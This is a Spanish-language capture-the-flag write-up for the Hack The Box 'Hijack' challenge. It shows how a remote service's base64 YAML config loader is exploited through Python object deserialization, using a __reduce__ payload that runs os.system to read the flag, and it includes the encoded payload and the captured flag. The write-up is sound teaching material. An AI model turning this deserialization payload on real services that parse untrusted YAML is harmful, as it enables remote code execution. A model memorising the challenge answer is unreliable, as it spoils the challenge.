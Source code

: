 # Hijack

En la instancia remota vemos un menú para crear y cargar archivos de configuración

```
$ nc 165.232.108.240 31949

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 100
Solar Array Target Temperature : 500
Infrared Spectrometers Target Temperature : 600
Auto Calibration (ON/OFF) : ON

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc2MDAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEwMCcsIHNvbGFyX2FycmF5X3RlbXA6ICc1MDAnLCB1bml0czogRn0K
Uploading to ship...


<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc2MDAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEwMCcsIHNvbGFyX2FycmF5X3RlbXA6ICc1MDAnLCB1bml0czogRn0K

Unable to load config!
```

En el menú aparece `serialized config` y automaticamente pensamos en un ataque de serialización, decodifiquemos el archivo de configuración en base 64

```python
>>> import base64
>>> import pickle
>>> import pickletools
>>> config = 'ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICc2MDAnLCBhdXRvX2NhbGlicmF0aW9uOiAnT04nLAogIHByb3B1bHNpb25fdGVtcDogJzEwMCcsIHNvbGFyX2FycmF5X3RlbXA6ICc1MDAnLCB1bml0czogRn0K'
>>> base64.b64decode(config)
b"!!python/object:__main__.Config {IR_spectrometer_temp: '600', auto_calibration: 'ON',\n  propulsion_temp: '100', solar_array_temp: '500', units: F}\n"
```

Si alguna vez han hecho ataques de serialización se daran cuenta que este formato no parece la serialización oficial de python (pickle). De hecho si intentamos analizar este resultado usando `pickletools` arrojará un error

```python
>>> pickled = base64.b64decode(config)
>>> pickletools.dis(pickled)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib64/python3.11/pickletools.py", line 2448, in dis
    for opcode, arg, pos in genops(pickle):
  File "/usr/lib64/python3.11/pickletools.py", line 2285, in _genops
    raise ValueError("at position %s, opcode %r unknown" % (
ValueError: at position 0, opcode b'!' unknown
```

Realizando una busqueda de `!!python/object` nos encontramos con este [artículo](https://code.tutsplus.com/tutorials/serialization-and-deserialization-of-python-objects-part-2--cms-26184) que trata de serialización de python usando yaml.

Al igual que con los ataques de serialización pickle empezamos a construir el payload tomando como base un script que ejecute un comando al momento en el que ocurre la deserialización, de acuerdo con el ejemplo mostrado [aquí](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

```python
import pickle
import base64
import os


class Config:
    def __reduce__(self):
        cmd = ('cat flag.txt')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Ahora el único cambio es utilizar yaml en vez de pickle y el script se verá de esta forma

```python
import pickle
import base64
import os
import yaml


class Config:
    def __reduce__(self):
        cmd = ('cat flag.txt')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = yaml.dump(Config())
    print(base64.urlsafe_b64encode(str.encode(pickled)))
```

El script imprime `ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=` y ya podemos cargarlo en el menú

```
$ nc 165.232.108.240 31949

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAo=
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit

```

flag `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`
